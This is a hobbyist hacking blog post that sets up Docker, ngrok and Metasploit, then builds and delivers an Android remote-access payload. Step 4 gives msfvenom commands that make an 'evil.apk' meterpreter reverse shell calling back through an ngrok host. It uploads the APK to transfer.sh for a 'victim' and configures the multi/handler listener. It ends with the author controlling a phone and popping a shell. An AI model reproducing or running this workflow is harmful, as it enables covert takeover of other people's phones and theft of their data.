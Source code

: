 ```yaml
---
author: "Laluka"
title: "Ngrok your DockerSploit"
slug: "ngrok_your_dockersploit"
date: 2019-12-15
status: "original"
description: "Tired of broken tools? You broke your system frequently by installing random sh*t? So do I! Let's see how to use docker, metasploit, ngrok and aliases in order to simplify your life and keep your system alive while hacking the planet!"
---
```



Hey, you! \
Aren’t you tired of always having broken tools relying on broken software?  \
Pissed off because you just broke your system (againnn...) trying to fix your previously broken tools and now everything’s fucked-up and you want to raise penguins out of the tech world? \

Or even worse, you want a reverse shell but you’re :

- At your grandparents place and they lost the router password so you can’t expose ports
- So broke that you can’t buy nor rent a virtual private server

Well that’s oddly specific but you’re on the exact right place on earth (and on the web)! \o7 \
Today, I’ll teach you how to use docker, metasploit, ngrok and aliases in order to simplify your life while hacking the planet! 


## Step 1 : Install and setup docker

UPDATE : Let's give a big shout out to [@Creased_](https://twitter.com/Creased_) that [tweeted me](https://twitter.com/Creased_/status/1206556812541091840) about the new / current docker install process, the one I initially published was deprecated. Oopsy Daisy.. `:x`

The install procedure is specified in the official doc, but... Gotta go faaaast (and self contained)!

```bash
# If previously installed, clean up 
sudo apt-get remove docker docker-engine docker.io containerd runc

# Update and install
sudo apt-get update
sudo apt-get install -y apt-transport-https ca-certificates curl gnupg-agent software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo apt-key fingerprint 0EBFCD88
sudo add-apt-repository \
   "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
   $(lsb_release -cs) stable # Hardcode disco if you're on ubuntu 19.XX
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io
sudo docker run hello-world

# OR

curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

You can always _start_, _stop_, or _enable_ the docker services using systemctl. 
Just check it's working as intended using the _status_ command, and eventually _enable_ it at reboot. 

```bash
sudo systemctl start docker
sudo systemctl status docker
sudo systemctl enable docker
```

If you’re not familiar AT ALL with docker, reading Richard’s introduction might be a good starting point : https://teuze.github.io/posts/docker/


## Step 2 : Install and setup ngrok

> Ngrok is a tool that can allow someone to expose ports to the internet without struggle. 

Ngrok folks have servers and custom DNS running and exposing IP addresses and ports for us. When the developer decides to expose a port, a connection is established with them and one of their subdomain:port is redirected to the open connection, thus exposing the local port.

<img class="img_med" src="/hacking/docker_sploit/ngrok.png" alt="ngrok">

Create an account, sign-in and visit https://dashboard.ngrok.com/get-started to get your auth token. 
Then install and configure your local instance with : 

```bash
sudo snap install ngrok
ngrok authtoken <REDACTED_TOKEN>
```

Now let’s verify everything works by creating a tunnel, checking logs in the webUI and opening a tcp tunnel. 

- Top right : 
 - Ngrok status & logs
 - google-chrome http://localhost:4040
- Top left : 
 - Ngrok tunnel
 - ngrok tcp 8888
- Bottom right : 
 - netstat, listen, verbose (really useful to know when we receive a connection), port 8888 (default is tcp)
 - nc -lvp 8888
- Bottom left : 
 - netcat, connect to the right ngrok subdomain and port 
 - nc 0.tcp.ngrok.io 17064

<img class="img_big" src="/hacking/docker_sploit/step_2_working_tunnel.png" alt="step_2_working_tunnel">


## Step 3 : Define your aliases

Add the following aliases in _~/.zshrc_, or _~/.bashrc_ if you’re more vanilla, then source your config and you’re good to go! 

```bash
cat > ~/.zshrc << EOF
alias metasploit8888='sudo docker run --rm -it -v /tmp/msf:/tmp/msf -p 8888:8888 -e MSF_UID=0 -e MSF_GID=0 metasploitframework/metasploit-framework:latest /bin/bash'
alias wipe_docker='sudo docker rm $(sudo docker ps -a -q) && docker rmi $(sudo docker images -q)'

source ~/.zshrc
EOF
```

Let’s spend some time explaining metasploit8888 alias. 

- `sudo` # we need to be root to interact with the docker socket
- `docker` # Interact with the socket using docker (captain obvious <3)
- `run` # start a process in out container
- `--rm` # remove the container on exit (cleaner)
- `-it` # interactive allocate a pseudo tty
- `-v /tmp/msf:/tmp/msf` # Mount /tmp/msf from our host in the docker, useful - `to extract data
- `-p 8888:8888` # expose out docker port on the host itself
- `-e MSF_UID=0 -e MSF_GID=0` # metasploit specific environment variables (root user and group)
- `metasploitframework/metasploit-framework:latest`  # the image we’ll use, from the Docker Hub
- `/bin/bash` # Override the entry point (msfconsole) with bash, so we can also use msfvenom

Image provider here : https://hub.docker.com/r/metasploitframework/metasploit-framework/


## Step 4 : Hack the planet!

Still here? Nice! Here’s our roadmap : 

- Generate a meterpreter payload (apk)
- Expose the dockerToHost (docker -p) and HostToWorld (ngrok)
- Get the meterpreter handler ready
- Execute the payload
- Profit???

### Step 4.1 : Create the tunnel and generate our payload

In order to create the right payload, we need to know which port we’ll use, thus we start the tunnel first. 

```bash
ngrok tcp 8888
```

Then we list the payloads and use the one of our choice. It should depend on the situation, but we’re just having fun here so let’s go for something efficient and reliable : meterpreter (shell++), reverse (connects back to us), tcp (more reliable than udp but slower for big queries)

```bash
./msfvenom --list payload | grep android
./msfvenom -p android/meterpreter_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=8888 > /tmp/msf/evil.apk
```

And then we make our payload available to our victim, thanks to transfer.sh ... :]

```bash
curl --upload-file /tmp/msf/evil.apk https://transfer.sh/evil.apk
```

<img class="img_big" src="/hacking/docker_sploit/step_4_1_gen_payload.png" alt="step_4_1_gen_payload">



### Step 4.2 : Start the multi/handler

At any time in msfconsole, you can use the following commands to know what you’re dealing with : 

```bash
help
info
options
show + tab # exhaustive list of available assets
```

Let’s grab our container ip and configure the multi/handler that will receive our reverse meterpreter. 

```bash
./msfconsole -q
use exploit/multi/handler
set payload android/meterpreter_reverse_tcp
ip a | grep eth # Get the container local ip for LHOST
set LHOST 172.17.0.2
set LPORT 8888
exploit
```
<img class="img_big" src="/hacking/docker_sploit/step_4_2_multi_handler.png" alt="step_4_2_multi_handler">


### Step 4.3 : Execute the payload, enjoy the meterpreter

Our target will somehow install the apk on his / her phone, and then... KABOOM! \

<img class="img_big" src="/hacking/docker_sploit/step_4_2_multi_handler.png" alt="step_4_2_multi_handler">

The app is installed and started, we receive our reverse meterpreter and can now have fun with it! \
Small demo here, getting system info, sending a message to myself and popping a shell :)

<img class="img_big" src="/hacking/docker_sploit/step_4_3_profit.png" alt="step_4_3_profit">

Pay attention to all the permissions required, if you see that, some day, from any app : flee you fool!

<img class="img_big" src="/hacking/docker_sploit/phone.png" alt="phone">

## Step 5 : That’s all folks!

From now on, when you’ll have a new tool to try or dirty tricks to test, browse the world wild (no typo here) web and find dockers! That being said, please be extra careful with the parameters you use with docker, it’s still possible to wreck your system in many ways! 

I initially wanted to enumerate a few common docker pitfalls, but there are just so many of them that I’ll just give pointers to more complete resources : 

- [Root via docker spawning](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/)
- [Vulnerability in runC](https://snyk.io/blog/a-serious-security-flaw-in-runc-can-result-in-root-privilege-escalation-in-docker-and-kubernetes/)
- [Docker group abuse](https://fosterelli.co/privilege-escalation-via-docker)
- [Good practices](https://www.secjuice.com/how-to-harden-docker-containers/)
- [Hardening and optimisations](https://pythonspeed.com/docker/)

I hope that you liked this workflow and learned something, and hopefully now you’ll spend less time fixing your system and more time hacking the world! 
